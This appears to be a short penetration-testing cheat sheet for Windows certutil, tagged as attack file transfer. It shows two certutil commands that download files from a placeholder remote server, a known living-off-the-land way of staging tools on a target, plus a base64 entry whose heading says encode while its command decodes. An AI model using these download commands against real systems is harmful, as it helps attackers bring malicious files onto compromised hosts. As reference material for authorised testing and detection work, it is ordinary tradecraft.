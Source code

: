 # certutil

% windows, certutil

## download with certutil
#plateform/windows #target/remote #cat/ATTACK/FILE_TRANSFERT 
```
certutil.exe -urlcache -split -f http://<server>/<source_file> <dest_file>
```

## download with  certutil (2)
#plateform/windows #target/remote #cat/ATTACK/FILE_TRANSFERT 
```
certutil.exe -verifyctl -f -split h http://<server>/<source_file> <dest_file>
```

## Encode in base64 with certutil 
#plateform/windows #target/local #cat/UTILS
```
certutil -decode enc.txt <file>
```
